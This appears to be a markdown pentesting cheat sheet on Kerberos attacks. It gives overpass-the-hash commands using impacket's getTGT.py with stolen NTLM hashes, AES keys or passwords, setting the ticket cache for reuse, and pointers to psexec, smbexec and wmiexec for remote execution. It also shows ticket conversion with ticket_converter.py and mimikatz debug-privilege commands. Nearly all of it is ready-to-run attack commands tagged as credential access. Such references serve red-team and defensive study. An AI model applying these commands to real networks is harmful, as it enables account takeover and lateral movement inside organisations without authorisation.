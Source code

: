 ## overpass the hash

## Request the TGT with hash
- `python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>`

## Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>`

## Request the TGT with password
- `python getTGT.py <domain_name>/<user_name>:[password]`

## Set the TGT for impacket use
- `export KRB5CCNAME=<TGT_ccache_file>`

### Execute remote commands with any of the following tools by using the TGT
> search for psexec.py, smbexec.py or wmiexec.py

---

# ticket_converter.py
- service: kerberos
- tactics: credential_access

## convert tickets between linux / windows format
[ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

- `python ticket_converter.py ticket.kirbi ticket.ccache`
- `python ticket_converter.py ticket.ccache ticket.kirbi`

### to use ticket 
> search for gettgt.py 

---

# mimikatz
- service: kerberos
- tactics: credential_access

## enable log
- `log filename.log`

## enable debug mode
- `privilege::debug`
